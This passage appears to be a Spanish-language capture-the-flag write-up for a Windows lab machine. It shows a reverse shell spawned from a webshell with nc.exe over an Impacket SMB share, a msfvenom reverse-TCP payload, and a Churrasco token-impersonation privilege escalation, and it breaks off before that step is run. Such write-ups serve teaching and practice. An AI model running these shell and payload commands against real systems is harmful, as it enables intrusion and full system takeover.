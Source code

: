 Creamos un servicio de recursos compartidos `SMB`
```bash
sudo impacket-smbserver smbFolder $(pwd)
```

En la webshell ejecutamos por medio de un recurso compartido una reverse shell con la ayuda de `nc`
```bash
\\10.10.14.8\smbFolder\nc.exe -e cmd 10.10.14.8 4564
```

Reverse shell exitosa
```bash
whoami
nt authority\network service
```

## ESCALADA DE PRIVILEGIOS SMBSERVER + CHURRASCO + MSFVENOM

Ahora que nos encontramos dentro de la máquina víctima, vamos a realizar la enumeración de permisos y tareas con la finalidad de lograr un escalamiento de privilegios.

Enumeración de grupos habilitados
```bash
whoami /priv
```
```bash
#OUTPUT
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
```

Descargamos una variante de `JuicyPotato.exe` denominada `Churrasco.exe`
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

Generamos un payload que nos va a permitir la conexión reversa por medio de `msfvenom`
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4566 -f exe -o rev.exe
```

Creamos un recurso compartido con `Impacket`
```bash
sudo impacket-smbserver smbFolder $(pwd)
```

En la máquina víctima ingresamos a la carpeta `C:\Windows\Temp`, creamos la carpeta `privesc` y copiamos el archivo `rev.exe` en el objetivo
```bash
cd c:\Windows\Temp
mkdir privesc
cd privesc
copy \\10.10.14.8\smbFolder\rev.exe rev.exe
```
